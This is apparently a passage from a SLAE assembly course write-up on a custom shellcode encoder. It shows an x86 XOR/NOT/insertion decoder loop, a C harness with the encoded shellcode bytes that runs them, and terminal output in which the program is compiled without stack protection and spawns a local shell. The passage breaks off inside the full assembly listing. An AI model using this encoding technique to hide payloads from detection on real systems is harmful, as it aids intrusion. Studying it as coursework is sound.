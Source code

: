 + Perform a XOR operation with 0x46 on the value of ESI.
+ Increment ESI, pointing to the next byte.
+ Continue the loop.
+ Once this is finished, jump to the fully decoded shellcode.

```term
decode3:

      xor byte [esi], 0x46           ; Performs a XOR operation between the value of ESI and 0x46
      inc esi                        ; Increments ESI, therefore performing aXOR operation on every opcode
      loop decode3                   ; Starts loop
      jmp short shellcode            ; Jumps to the shellcode

```

Let's test this encoder within the C format:

```term
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x38\x5d\x89\xee\x8d\x7e\x01\x31\xc0\x31\xdb\xb1\x2c\xb0\x01\x8a\x1c\x06\x80\xf3\x45\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\xe2\xef\xb1\x16\x31\xf6\x89\xee\xf6\x16\x46\xe2\xfb
\xb1\x16\x31\xf6\x89\xee\x80\x36\x46\x46\xe2\xfa\xeb\x05\xe8\xc3\xff\xff\xff\x88\x45\x79\x45\xe9\x45\xd1\x45\x96\x45\x96\x45\xca\x45\xd1\x45\xd1\x45\x96\x45\xdb\x45\xd0\x45\xd7\
x45\x30\x45\x5a\x45\xe9\x45\x30\x45\x5b\x45\x09\x45\xb2\x45\x74\x45\x39\x45";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

#### EndGame

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$ gcc custom_insertion.c -o custom_insertion -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$ ./custom_insertion 
Shellcode Length:  107
$
```

Complete code:

```term
global _start

section .text

_start:

      jmp short master               ; Jumps to master

main:

      pop ebp                        ; Pops the value of the shellcode into ebp
      mov esi, ebp                   ; Copies the value from ebp to esi

      lea edi, [esi + 1]             ; Points to the 0x45 byte
```
